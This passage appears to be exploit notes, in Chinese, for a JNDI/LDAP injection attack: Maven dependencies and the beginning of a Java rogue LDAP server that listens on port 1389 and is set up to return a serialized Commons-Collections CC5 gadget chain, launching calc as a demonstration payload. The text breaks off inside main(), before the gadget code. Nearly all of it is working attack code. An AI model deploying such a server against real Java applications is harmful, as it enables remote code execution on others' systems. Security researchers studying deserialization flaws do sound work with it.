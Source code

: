 ## ldap返回序列化对象

```xml
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>3.1.1</version>
</dependency>
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>
```

Server：CC5

```java
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URL;
import java.util.HashMap;
import java.util.Map;

public class Server {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) throws Exception{
        String[] args=new String[]{"http://127.0.0.1/#calc"};
        int port = 1389;

        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
        config.setListenerConfigs(new InMemoryListenerConfig(
                "listen",
                InetAddress.getByName("0.0.0.0"),
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

        config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
        InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
        System.out.println("Listening on 0.0.0.0:" + port);
```